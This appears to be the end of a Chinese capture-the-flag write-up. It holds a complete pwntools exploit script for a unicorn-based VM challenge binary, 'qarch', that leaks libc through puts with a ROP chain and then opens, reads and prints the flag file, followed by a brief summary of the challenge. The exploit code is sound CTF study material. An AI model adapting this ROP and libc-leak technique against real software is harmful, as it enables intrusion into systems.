 ```python

# payload = call(MEM, 0, 0)++cmp(MEM, WORD, 0, 256)
pop_rdi = 0x0000000000401343
pop_rsi_r15 = 0x0000000000401341
pop_rsp_3 = 0x000000000040133d
readn = 0x400BF7
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']


payload = flat(payload)
payload = payload.ljust(0x500,'\x00')+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload += p64(pop_rdi)+p64(elf.bss()+0x1000-8)+p64(pop_rsi_r15)+p64(0x500)*2+p64(readn)
payload += p64(pop_rsp_3)+p64(elf.bss()+0x1000-3*8)

s = process("./qarch", env={'LD_PRELOAD': "./lib/libunicorn.so.1"})

s.sendlineafter("Base Address?", str(0x602000))
s.sendafter("Code size?", str(len(payload)))
# gdb.attach(s, "b *0x400ceb\nc")
# gdb.attach(s,"b disas_mov\nc")
# gdb.attach(s,"b *0x400ceb\nb helper_push\nc")

s.sendafter("Code:", payload)
libc.address = u64(s.recvuntil("\x7f")[-6:]+"\x00\x00")-libc.sym['puts']
success(hex(libc.address))

payload = './flag\x00\x00'+p64(pop_rdi)+p64(elf.bss()+0x1000-8)+p64(pop_rsi_r15)+p64(0)*2+p64(libc.sym['open'])
payload += p64(pop_rdi)+p64(3)+p64(pop_rsi_r15)+p64(elf.bss()+0x500)*2+p64(next(libc.search(asm('pop rdx;ret;'))))+p64(0x100)+p64(libc.sym['read'])
payload += p64(pop_rdi)+p64(elf.bss()+0x500)+p64(libc.sym['puts'])
raw_input(">")
s.send(payload.ljust(0x500,'\x00'))

s.interactive()

```

## 总结

感觉这道题目还是很有意思的，结合unicorn，把传统的vm题目变得更符合实际。

对我而言这个题的做题体验度远超另外两个libc大师题目(

